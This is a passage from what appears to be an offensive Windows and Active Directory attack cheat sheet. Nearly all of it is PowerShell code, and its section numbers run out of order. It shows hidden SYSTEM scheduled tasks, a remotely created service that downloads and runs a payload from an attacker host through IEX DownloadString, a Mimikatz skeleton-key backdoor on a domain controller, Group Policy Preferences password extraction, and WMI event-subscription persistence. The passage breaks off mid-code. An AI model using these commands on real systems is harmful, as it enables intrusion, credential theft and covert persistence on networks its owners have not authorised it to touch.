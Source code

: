 * **Create a Hidden Scheduled Task for Persistence**:

```powershell
$TaskName = "UpdateTask"
$Task = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Windows\Temp\script.ps1"
$Trigger = New-ScheduledTaskTrigger -AtStartup
$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName $TaskName -Action $Task -Trigger $Trigger -Settings $Settings -Principal $Principal
```

#### 2.4 Persistence via Services&#x20;

* **Create a New Service for Persistence**:

```powershell
Invoke-WmiMethod -Class Win32_Process -ComputerName <Target_IP> -Name Create -ArgumentList "sc create PersistentService binPath= 'C:\Windows\System32\cmd.exe /c powershell.exe -noexit -Command IEX (New-Object Net.WebClient).DownloadString(''http://<attack_ip>:<attack_port>/payload.ps1'')'"
```

* **Configure a Service for Persistence**:

```powershell
New-Service -Name "PersistentService" -BinaryPathName "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\script.ps1" -StartupType Automatic
Start-Service -Name "PersistentService"
```

#### 2.3 Backdoor Domain Controller using Skeleton Key&#x20;

* **Load Skeleton Key using Mimikatz**:

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

#### 2.6 Abuse Group Policy Preferences (GPP)&#x20;

* **Search for GPP Passwords in SYSVOL**:

```powershell
Invoke-ACLScanner -Path "\\<domain>\SYSVOL\<domain>\Policies" -FindPasswords
```

* **Decrypt GPP Password**:

```powershell
Invoke-GPPPassword -Path "C:\GPP\GroupPolicy.xml"
```

#### 2.9 WMI Event Subscription for Persistence&#x20;

* **Create a WMI Event Subscription for Persistence**:

```powershell
$Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
    Name = "PersistentEventFilter"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process'"
    QueryLanguage = "WQL"
}

$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name = "PersistentConsumer"
    CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Windows\Temp\script.ps1"
```